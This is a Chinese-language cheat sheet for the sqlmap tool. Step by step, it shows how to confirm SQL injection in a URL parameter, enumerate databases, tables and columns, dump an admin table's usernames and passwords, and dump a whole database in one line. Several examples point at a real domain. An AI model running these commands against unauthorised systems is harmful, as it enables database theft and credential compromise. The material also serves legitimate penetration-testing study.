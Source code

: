 #### Sqlmap常用命令

1.  **sqlmap.py -u "http://www.XXX.com/index.asp?id=1"**   

    判断id参数是否存在注入：结果中包含 “id” is Vulnerable  字段表示存在注入

    存在注入，下面的步骤才可以执行成功~

2.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --dbs

    列举能列出的所有数据库名

3.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" --current-db

    列出当前使用的数据库名，假设列出“sqltest”数据库

4.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --is-dba

    判断该注入点是否有管理员权限：返回true  表示是管理员

5.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" --tables

    获取sqltest中的所有表，假设有"admin"表

6.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" --columns

    列举表admin的字段（列名），假设存在"username","password"字段

7.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" -C "username,password" --dump

    下载字段username，password的值，若询问是否破解md5加密，选择no即可

--help，可以查看所有参数，格式：python2 sqlmap.py -u http://www.xxx.com/index.asp?id=1 --[参数] --[参数]

常用参数如下：

| 参数                                     | 含义                                                         | 示例                                                         |
| ---------------------------------------- | ------------------------------------------------------------ | :----------------------------------------------------------- |
| --batch                                  | 跳过手工确认，直接跑码                                       | python sqlmap.py -u url --batch                              |
| -v                                       | 输出等级，0-6共7级，默认1级                                  | -v 3                                                         |
| --level                                  | 默认等级是1，cookie测试为2，use-agent或refer测试为3，host测试为5 | **sqlmap**.py -u "www.baidu.com/user.php?id=7" --level 3     |
| -u                                       | 指定目标，指定一个URL作为目标，还可以指定端口                | **sqlmap**.py -u "www.baidu.com/user.php?id=7"<br>**sqlmap**.py -url "www.baidu.com:8080/user.php?id=7" |
| --dbs                                    | 列出所有数据库名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --dbs     |
| --current-db                             | 列出当前应用程序使用的的数据库                               | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --current-db |
| --is-dba                                 | 判断注入点是否有管理员权限                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --is-dba  |
| -D 数据库名 --tables                     | 列出数据库的表名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "security" --tables |
| -D 数据库名 -T 表名 --columns            | 列出字段名                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" --columns |
| -D 数据库名 -T 表名 -C "id,name"　--dump | 列出字段值                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" -C "id,name"　--dump |
| -r                                       | 本地seesion文本                                              |                                                              |

**一句话脱库：sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "数据库名" --dump-all**

